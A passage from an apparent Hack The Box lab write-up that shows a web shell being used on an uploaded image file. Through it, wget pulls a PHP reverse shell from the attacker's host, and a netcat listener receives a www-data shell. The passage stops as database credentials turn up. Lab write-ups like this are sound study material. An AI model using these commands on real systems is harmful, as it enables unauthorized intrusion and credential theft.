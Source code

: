 ### Code execution

And then navigate to this url:

`http://10.10.10.185/images/uploads/image.php.jpeg?cmd=`

We can now run commands.

We run `ls` as a test to see if it works and it does in fact work.

![ls](https://i.ibb.co/3F25csK/ls.png)

We will now try to get a shell on our box.

I will use `wget` in the url to get a php reverse shell from my box. I will then navigate to this file and run it.

I will then get a connection back on my listener.

I run this command to get the file from my box onto the machine:

```text
http://10.10.10.185/images/uploads/image.php.jpeg?cmd=wget%20http://10.10.14.26:8000/php-reverse-shell.php
```

I also have a python server running with `python -m http.server` to establish the connection between the 2 machines.

Once we get the reverse shell onto the machine we go to it with the url:

```text
http://10.10.10.185/images/uploads/php-reverse-shell.php
```

### Shell as `www-data`

We then get a connection back on our listener.

```bash
┌──(kali㉿kali)-[~/htb/boxes/magic]
└─$ nc -nlvp 1234                    
listening on [any] 1234 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.185] 38866
Linux ubuntu 5.3.0-42-generic #34~18.04.1-Ubuntu SMP Fri Feb 28 13:42:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:17:28 up 10:02,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

### Enumeration

After this we enumerate files on the box. We come accross a file called `db.php5` which when reading it reveals credentials for the `mysql` database.
